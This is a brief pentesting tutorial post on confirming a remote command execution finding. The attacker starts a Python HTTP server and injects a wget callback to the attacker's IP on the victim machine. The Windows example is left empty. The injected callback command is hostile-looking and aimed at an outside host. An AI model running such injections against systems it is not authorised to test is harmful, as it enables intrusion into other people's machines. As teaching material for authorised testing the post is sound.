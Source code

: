 ```yaml
---
layout: post
title:  "How to test a RCE"
tags: ['reverse-shell', 'pentest-basics', 'rce']
---
```


## Introduction
In this post we are going to cover ways to test our potential RCE.
This is a good practice before getting the shell, if we do this test, we will test that the RCE that we found is correct and functional


### Python http server
The concept of this test is very simple, we are going to publish a site. We will inject a command wich will contain a GET request to an object on our http server.
If we see a message that says some client is sending us a GET request in our machine, we will know we have connectivity and we can inject commands.

>Note that the object in our web doesn't have to exist, the client (victim) will request some random object, and a message in our server will pop, telling us that someone (victim) is trying to get a resource that doens't exist. But we dont care about that, the point of this is test command injection and connectivity, not share objects.

We run this command to start the server in the attacker's machine
```bash
python3 -m http.server
```

The command what we have to inject in the victim's machine computer:
### Linux
```bash
wget $IP:8000/aaaa
```
### Windows
```powershell

```

If we get any response at the server machine mean's that our RCE work's just fine.






